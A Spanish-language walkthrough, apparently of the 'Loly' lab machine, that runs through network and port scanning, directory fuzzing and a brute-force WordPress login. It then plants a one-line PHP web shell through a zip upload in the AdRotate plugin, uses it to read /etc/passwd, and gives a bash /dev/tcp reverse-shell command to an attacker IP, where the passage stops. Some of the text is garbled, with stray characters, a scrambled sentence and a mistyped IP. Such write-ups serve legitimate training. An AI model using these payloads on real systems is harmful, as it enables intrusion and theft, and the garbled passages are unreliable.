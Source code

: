 # Loly
Realizamos un escaneo en la red:
```bash
> sudo arp-scan -I eth0 --localnet
```
![sudo arp-scan -I eth0 --localnet](arp-scan.png)

---
Vemos que hay una máquina VMWare con ip 192.168.1.25. 
Comprobamos que la máquina esté activa:

```bash
> ping -c 1 192.168.1.25
```

```bash
PING 192.168.1.25 (192.168.1.25) 56(84) bytes of data.
64 bytes from 192.168.1.25: icmp_seq=1 ttl=64 time=3.08 ms

--- 192.168.1.25 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 3.076/3.076/3.076/0.000 ms
```

---
Ahora, realizamos un escaneo simple de puertos:

```bash
> sudo nmap -sS -p1-1000 -Pn 192.168.1.25
```
 
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 13:51 EST
Nmap scan report for ubuntu.home (192.168.1.25)
Host is up (0.0086s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:01:03:D9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.62 seconds
```

Inicialmente, parece haber un puerto abierto: el 80.

---
Miramos que version de servidor http se está utilizando:

```basó
> sudo nmap -sV -p 80 -n -Pn 192.168.1.25 
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 13:53 EST
Nmap scan report for 192.168.1.25
Host is up (0.0018s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
MAC Address: 00:0C:29:01:03:D9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.48 seconds
```

---
Ahora intentamos mirar qué posible sistema operativo está corriendo dicho servicio, haciendo una búsqueda em google con las siguientes palabras clave: nginx 1.10.3 Launchpad,n Gllí nos aparecerá lo más probable la ves"ión del SO sobre el qu"e corre el servicio.

,Al parecer está ,corriendo sobre Ubuntu xenial.

---
Miramos qué t:

![nginx_launchpadecnpng](nginx_launchpad.png)ologías web están corriendo sobre ese servidor:

```bash
> whatweb 192.168.1.25
```

```bash
http://192.168.1.25 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.10.3 (Ubuntu)], IP[192.168.1.25], Title[Welcome to nginx!], nginx[1.10.3]
```

---
Y ahora miramos la página principal:
![whatweb](2023-01-16_15-45.png)

---
Como no hay nada, buscaremos directorios oculto
s posibles:

```bash
> wfuzz -c --hc 404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://192.168.1.25/FUZZ
```

```bash
000000009:   200        25 L     69 W       612 Ch      "# Suite 300, San Franci"
							"sco, California, 94105," 
							"USA."
000000587:   301        7 L      13 W       194 Ch     "wordpress"             
000045240:   200        25 L     69 W       612 Ch     "http://192.168.1.25/#"
```

Podemos ver que hay un directorio wordpress

---
Dentro del directorio wordpress miramos qué posibles subdirectorios puede haber o páginas.

```bash
> wfuzz -c --hc 404,403,405,500 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://192.168.1.25/wordpress/FUZZ 
```

```bash
000000013:   200        496 L    1474 W     28194 Ch    "#"                     
000000241:   301        7 L      13 W       194 Ch      "wp-content"            
000000786:   301        7 L      13 W       194 Ch      "wp-includes"           
000007180:   301        7 L      13 W       194 Ch      "wp-admin"              
000045240:   200        496 L    1474 W     28194 Ch    "http://192.168.1.25/wordpress/"
```						   
--- 
Al acceder al directorio wordpress desde el navegador esto es lo que vemos:

![wordpress](2023-01-16_15-49.png)

---


Como podemos ver los enlaces hacen referencia a un dominio en concreto, que asumimos es el que aloja el sitio. Por ese motivo, modificaremos /etc/hosts para asignar a la direccion IP el dominio en cuestion:

```bash
   ───┬───────────────────────────────────────────────────────────────────────────────────ó──────
      │ File: /etc/hosts
   ───┼──────────────────────────────────────────────────────────────────────────────────────────
  1   │ 127.0.0.1   localhost
  2   │ 127.0.1.1   kali
  3   │ ::1     localhost ip6-localhost ip6-loopback
  4   │ ff02::1     ip6-allnodes
  5   │ ff02::2     ip6-allrouters
  6   │ 192.168.1.25 loly.lc
```
Al clicar en la primera página, se abre la página principal del blog:
![](2023-01-16_15-59.png)

---
Como vemos que hay una nombre que se repite continuamente, ```loly``` podemos suponer que ese nombre es un posible usuario.
Vamos al panel de administración de wordpress que es accesible.

![wp-login.png](wp-login.png)

Antes de nada probamos las típicas credenciales por defecto: ~Admin~ (no password), ~Admin / Admin~, ~Admin / Admin123~ etc...
Como no nos deja logearnos, podemos probar otras alternativas con el usuario ~loly~.
Tampoco.

Dado que hay mucha probabilidad de que loly sea un usuario válido, podemos intentar hacer un ataque de fuerza bruta para averiguar las credenciales.

Realizamos un script llamado ```bruteForceLogin.sh``` y lo ejecutamos:

```bash
./bruteforceLogin.sh loly /usr/share/wordlists/rockyou.txt  
```

![bruteForceLogin.png](bruteForceLogin.png)
---


Entramos en el panel de administración de wordpress
http://loly.lc/wordpress/wp-login.php

y no encontramos nada especial. Miramos si hay alguna vulnerabilidad conocida para el tema de wordpress "feminine" pero no hay nada.
Enumeramos qué plugins tiene instalada la web:

![wordpress_plugins.png](wordpress_plugins.png)

Dados los plugins y sus versiones actuales, no encontramos posibles vulnerabilidades que explotar.

---
Hay un ataque con el que podemos crear una posible web-shell, e incluso crear una reverse-shell que consiste en customizar la página de error 404.php
Este método requiere poder configurar los ficheros del tema de wordpress, pero vemos que no es posible.

![theme-file-editor.png](theme-file-editor.png)
Investigando vemos que podría haber una manera de resolver esto:

![theme-file-editor-solution.png](theme-file-editor-solution.png)

Pero no funciona, porque no hay manera de encontrar las páginas donde setear esto.

También podemos intentar instalar algún plugin vulnerable a php pero no podemos instalar plugins porque no tenemos privilegios para ello a pesar de ser admnistradores del sitio web de wordpress.
![cannot_install_pluggins.png](cannot_install_pluggins.png)

Observando la página del plugin instalado AdRotate, vemos que podemos añadir ficheros de medios.
Entre ellos hay posibilidad de subir ficheros .zip que, según se describe, son descomprimidos automáticamente.
Esto nos permitiría comprimir un fichero php y subirlo camuflado dentro del fichero zip.

Este es el contenido del fichero ```rec.php``` que subiremos dentro del zip:

´´´php
<?php system($_GET['c']); ?>
´´´

Tras subirlo pasamos a realizar un reconocimiento para ver si se ha subido correctamente.
![rce-php.png](rce-php.png)

Ahora podríamos examinar el contenido de ficheros clave dentro del sistema de archivos de la máquina víctima. Podríamos hacer

bash```
http://loly.lc/wordpress/wp-content/banners/rce.php?c=cat%20/etc/passwd 
```
o
bash```
http://loly.lc/wordpress/wp-content/banners/rce.php?c=ls%20-la%20/home/loly
``` 

Sin embargo, para trabajar más cómodamente vamos a entablar una reverse shell utilizando el sigui9ente comando como parámetro en la URL:


bash```
bash -c "/bin/bash -i 2&> /dev/tcp/192.196.1.80/443 <0"
``` 

